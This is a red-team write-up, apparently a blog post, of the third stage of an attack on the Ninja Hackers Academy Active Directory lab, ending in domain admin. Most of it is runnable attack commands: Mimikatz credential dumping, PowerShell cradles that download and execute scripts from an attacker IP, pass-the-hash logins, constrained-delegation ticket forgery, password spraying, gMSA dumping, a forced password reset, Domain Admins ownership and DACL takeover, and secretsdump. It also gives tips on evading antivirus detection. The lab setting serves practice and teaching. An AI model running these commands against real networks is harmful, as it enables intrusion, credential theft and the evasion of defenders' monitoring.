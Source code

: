 ```yaml
---
title: "AD Pwnage: Ninja Hackers Academy Part 3"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2024-02-05
description: "Hacking into NHA - AD based Lab Red Team way."
tags: [Red Team]
---
```


## Introduction
In the previous one, we pivoted from one machine to another using the `GenericAll` privileges over a container and then using RBCD to successfully generate a ticket that gave us the keys as Administrator to the `WEB$` machine. In this one we are going to see how we can go from there to other machines. The goal here is to reach domain admin in this domain and then do some trust hax and jump to any other forest that there might be (there is. this should have been covered by the reader in the previous posts when we got iniital access to the domain.) 

## Harvesting Creds
Before going nay further, we will make sure not to lose access. For that I'll run the same modified `Invoke-Mimikatz.ps1` script. I have added the following lines in the end of the script.
```bash
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command "token::elevate lsadump::sam exit"
Invoke-Mimikatz -Command "token::elevate sekurlsa::ekeys exit"
```

So using the same command we can dump some hashes.
```bash
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://192.168.58.50/safedogz.ps1') -UseBasicParsing | iex"
```
![WEB Hashes](/assets/img/NHA/web_hashes.png)

Notably, we get the follwoing hashes that we need to save.
```
Administrator:0c532fcf2046010cb8d38eedf5e45312
frank:d4fad93561dee253398d5891e991a6fb
WEB$:1cee40630bb1fe3f4ae2adfc6e7ec977
```

With this, we seem to have a user account. One we didn't have previously. We can try to see what this account can access using this command.
```bash
netexec smb 192.168.58.0/24 -u frank -H d4fad93561dee253398d5891e991a6fb
```

![Frank Hash](/assets/img/NHA/frank_hash.png)

We can use `evil-winrm` to login to any of these machines and confirm our access.
```bash
evil-winrm -i 192.168.58.21 -u frank -H d4fad93561dee253398d5891e991a6fb
``` 

![Frank Web Access](/assets/img/NHA/frank_web.png)

## BloodHound to the rescue (again...)
After this, we can try to find something interesting in the machines itself, locating passwords from browsers etc. and such. I have tried it. Couldn't find anything worth while. We can move over to BloodHound again. We can start by marking assets that we have access to now as owned. Then map a path from the owned principles to other assets in the domain. While doing it for `SHARE$` machine, I can see that user `frank` has a right to delegate to that machine.
We can confirm this by using this command.
```bash
findDelegation.py academy.ninja.lan/frank -hashes d4fad93561dee253398d5891e991a6fb:d4fad93561dee253398d5891e991a6fb -dc-ip 192.168.58.20
```

![List Delegations](/assets/img/NHA/delegations.png)

This shows us that user `frank` has Constrained Delegation with Protocol Transition rights for the `eventlog` service. This can be read about [here](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/constrained#with-protocol-transition).
As seen here, `frank` has the rights to the service `eventlog`. This can be misused by creating a service ticket by using the user `frank` which will impersonate `Administrator` to the service `eventlog`. But we will also provide a diferent service using the `altservice` flag of `CIFS` which will help us access the file system or use tools like `PSExec` or `SMBExec`. This happens because the service name part of the ticket is not protected so we can change it whatever we like.
One thing to note, the original Impacket's `getST.py` will not have the option for `altservice`. You can use [this](https://github.com/ShutdownRepo/impacket/tree/getST) to get the one with this flag.

```bash
/opt/impacket-getst/examples/getST.py -spn 'eventlog/share' -altservice 'cifs/share' -impersonate Administrator -dc-ip 'academy.ninja.lan' "academy.ninja.lan"/"frank" -hashes d4fad93561dee253398d5891e991a6fb:d4fad93561dee253398d5891e991a6fb
```

![Asking Service Ticket](/assets/img/NHA/constrained.png)

After this we can export it and see if it works using `SMBExec.py`
```bash
export KRB5CCNAME=Administrator@cifs_share@ACADEMY.NINJA.LAN.ccache

smbexec.py @share -k -no-pass -dc-ip 192.168.58.20 -target-ip 192.168.58.23
```


![Shell on SHARE](/assets/img/NHA/share_shell.png)

On thing to mention, the usual Impacket was immediately getting detected. But for some reason Impacket for Exegol was not. That worked fine. You can find that [here](https://github.com/ThePorgs/impacket).
After moving it to our C2, we can look around for some thing interesting. I found a `bot.ps1` script that contains the password of `frank` user.

![Frank Password](/assets/img/NHA/frank_pass.png)

We can try to spray this password over all the users in the domain to find if we can find another user with this same password.
```bash
netexec smb 192.168.58.20 -u creds/academy_users.txt -p 'Il0ve!R4men_<3' --continue-on-success
``` 

![Password Spray](/assets/img/NHA/spray.png)

## GMSA Dumping
That doesn't give us much. We can move back to BloodHound to check what we can find. By looking around, we can find that the machine we just got into has the ability to read GMSA password of the `gmsaNFS$` machine. This is, as the name suggests, a NFS or a file share account which is a machine account.

![GMSANFS$ Path](/assets/img/NHA/gmsa.png)

For this, we would need the machine account hash for `SHARE$`. After aquiring the hash we can use `gMSADumper.py` to confirm that `SHARE$` can read the password. For some reason it was not dumping the password itself.
```bash
python /opt/gMSADumper/gMSADumper.py -u SHARE$ -p 791782105dd864621fbbf9e0fbed9fc7:791782105dd864621fbbf9e0fbed9fc7 -d academy.ninja.lan -l dc-ac.academy.ninja.lan
```

At this point, the default havoc payload was not working. [This](https://github.com/Maldev-Academy/MaldevAcademyLdr.1) is my new best friend (lowkey waiting for a discount or a giveaway...). If after access its giving you troubles, you can always remove the defender definitions to make eveything else be nice.

![GMSANFS$ Read](/assets/img/NHA/gmsa_share.png)

We can use [this](https://github.com/rvazarkar/GMSAPasswordReader) to dump the passwords instead using havoc.
```bash
dotnet inline-execute /opt/Toolies/GMSAPasswordReader.exe --AccountName gmsaNFS$
```

And we get the hashes.

![Dumped GMSANFS$](/assets/img/NHA/dump_gmsa.png)

## ACL Pwning

Having a look in BloodHound we can see that the machine `SHARE$` has an ACL `ForceChangePassword` over the backup user. We can use PowerView to do this.
```bash
IEX(New-Object Net.WebClient).downloadString('http://192.168.58.50/PowerView.ps1')

$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'backup' -AccountPassword $NewPassword
```

After this, we canfirm it using `netexec`
```bash
netexec smb 192.168.58.20 -u backup -p 'Password123!'
```

![Backup User](/assets/img/NHA/backup_user.png)


## Over to the Domain Admin

Back to good ol' bloodhound. We can see that this user basicallty carries the keys to the domain.

![Backup Bloodhound](/assets/img/NHA/backup_blood.png)

We can again confirm that using `owneredit.py` from the ShutDownRepo fork of `impacket`.
```bash
/opt/impacket-getst/examples/owneredit.py -action read -target 'Domain Admins' academy.ninja.lan/backup:'Password123!'
```


We can use this to change the owner of the Domain Admins group to `backup` as well.
```bash
/opt/impacket-getst/examples/owneredit.py -action write -new-owner 'backup' -target 'Domain Admins' academy.ninja.lan/backup:'Password123!'
```


Once that is done we can easily update the user `backup` to have `GenericAll` privileges over the `Domain Admins` group using `dacledit.py`.
```bash
dacledit.py -action 'write' -rights 'FullControl' -principal backup  -target 'Domain Admins' 'academy.ninja.lan'/'backup':'Password123!' 
```


This can again be confirmed using BloodHound dump.
```bash
bloodhound-python -c all -d academy.ninja.lan -v -u backup -p 'Password123!' -ns 192.168.58.20 --zip
```

Once that is confirmed, the only thing remaining is really just adding ourselves in the `Domain Admins` group.
```bash
net rpc group addmem 'Domain Admins' backup -U academy.ninja.lan/backup -S 192.168.58.20
```


Confirming it works.
![Backup Domain Admin](/assets/img/NHA/backup_domainadmin.png)


With all this out of the way, we can finally dump the domain secrets using `secretsdump.py` and pwn the whole domain.
```bash
impacket-secretsdump 'academy.ninja.lan'/'backup':'Password123!'@192.168.58.20 -dc-ip 192.168.58.20 -outputfile domain
```

<br>

![Secrets Dump](/assets/img/NHA/secrets.png)


Finally, we can log in to the domain controller to confirm.

![Domain Admin](/assets/img/NHA/domain_admin.png)


This marks the end of the third post with us being the domain administrator in the domain. But the work is not finished. In the next one we will move from this domain to the other domain in the trust relationship. Let me know if I missed or messed up a step. Be happy to help!